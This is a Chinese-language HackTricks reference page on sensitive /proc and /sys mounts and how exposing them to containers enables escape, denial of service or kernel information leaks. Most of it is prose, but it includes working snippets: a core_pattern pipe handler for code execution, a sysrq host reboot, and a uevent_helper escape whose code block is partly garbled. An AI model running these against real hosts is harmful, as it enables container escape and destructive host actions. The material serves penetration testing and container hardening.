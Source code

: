 # 敏感挂载点

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)系列
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

未经适当命名空间隔离的`/proc`和`/sys`的暴露会带来重大安全风险，包括扩大攻击面和信息泄露。这些目录包含敏感文件，如果配置不当或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，不正确地挂载`-v /proc:/host/proc`可能会绕过AppArmor保护，因为其基于路径的特性，使`/host/proc`无保护。

**您可以在** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** **找到每个潜在漏洞的更多详细信息。**

## procfs漏洞

### `/proc/sys`

该目录允许通过`sysctl(2)`修改内核变量，并包含几个相关子目录：

#### **`/proc/sys/kernel/core_pattern`**

* 在[core(5)](https://man7.org/linux/man-pages/man5/core.5.html)中描述。
* 允许定义在生成核心文件时执行的程序，前128个字节作为参数。如果文件以管道`|`开头，可能导致代码执行。
*   **测试和利用示例**：

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入权限
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

#### **`/proc/sys/kernel/modprobe`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中详细描述。
* 包含内核模块加载器的路径，用于加载内核模块。
*   **检查访问权限示例**：

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对modprobe的访问权限
```

#### **`/proc/sys/vm/panic_on_oom`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中引用。
* 一个全局标志，控制OOM条件发生时内核是崩溃还是调用OOM killer。

#### **`/proc/sys/fs`**

* 根据[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
* 写入权限可能导致对主机的各种拒绝服务攻击。

#### **`/proc/sys/fs/binfmt_misc`**

* 允许根据其魔术数字为非本机二进制格式注册解释器。
* 如果`/proc/sys/fs/binfmt_misc/register`可写，可能导致特权升级或root shell访问。
* 相关利用和解释：
* [通过binfmt\_misc实现的简易rootkit](https://github.com/toffan/binfmt\_misc)
* 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`中的其他内容

#### **`/proc/config.gz`**

* 如果启用了`CONFIG_IKCONFIG_PROC`，可能会显示内核配置。
* 对攻击者有用，以识别运行中内核中的漏洞。

#### **`/proc/sysrq-trigger`**

* 允许调用Sysrq命令，可能导致立即系统重启或其他关键操作。
*   **重启主机示例**：

```bash
echo b > /proc/sysrq-trigger # 重启主机
```

#### **`/proc/kmsg`**

* 显示内核环形缓冲区消息。
* 可帮助内核利用、地址泄漏和提供敏感系统信息。

#### **`/proc/kallsyms`**

* 列出内核导出的符号及其地址。
* 对于内核利用开发至关重要，特别是为了克服KASLR。
* 地址信息受`kptr_restrict`设置为`1`或`2`的限制。
* 详细信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/[pid]/mem`**

* 与内核内存设备`/dev/mem`交互。
* 在历史上容易受到特权升级攻击。
* 更多信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/kcore`**

* 以ELF核心格式表示系统的物理内存。
* 读取可能泄露主机系统和其他容器的内存内容。
* 大文件大小可能导致读取问题或软件崩溃。
* 详细用法请参阅[2019年转储/proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)。

#### **`/proc/kmem`**

* `/dev/kmem`的替代接口，表示内核虚拟内存。
* 允许读取和写入，因此可以直接修改内核内存。

#### **`/proc/mem`**

* `/dev/mem`的替代接口，表示物理内存。
* 允许读取和写入，修改所有内存需要解析虚拟到物理地址。

#### **`/proc/sched_debug`**

* 返回进程调度信息，绕过PID命名空间保护。
* 显示进程名称、ID和cgroup标识符。

#### **`/proc/[pid]/mountinfo`**

* 提供有关进程挂载命名空间中挂载点的信息。
* 显示容器`rootfs`或镜像的位置。

### `/sys`漏洞

#### **`/sys/kernel/uevent_helper`**

* 用于处理内核设备`uevents`。
* 写入`/sys/kernel/uevent_helper`可以在`uevent`触发时执行任意脚本。
*   **利用示例**： %%%bash

## 创建有效载荷

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## 从OverlayFS挂载中找到容器的主机路径

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## 将uevent\_helper设置为恶意助手

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## 触发uevent

echo change > /sys/class/mem/null/uevent

## 读取输出

cat /output %%%
#### **`/sys/class/thermal`**

* 控制温度设置，可能导致 DoS 攻击或物理损坏。

#### **`/sys/kernel/vmcoreinfo`**

* 泄露内核地址，可能危及 KASLR。

#### **`/sys/kernel/security`**

* 包含 `securityfs` 接口，允许配置 Linux 安全模块如 AppArmor。
* 访问可能使容器禁用其 MAC 系统。

#### **`/sys/firmware/efi/vars` 和 `/sys/firmware/efi/efivars`**

* 提供与 NVRAM 中的 EFI 变量交互的接口。
* 配置错误或利用可能导致笔记本变砖或主机无法启动。

#### **`/sys/kernel/debug`**

* `debugfs` 为内核提供了一个“无规则”调试接口。
* 由于其不受限制的特性，存在安全问题的历史。

### 参考资料

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的 **公司广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。 

</details>
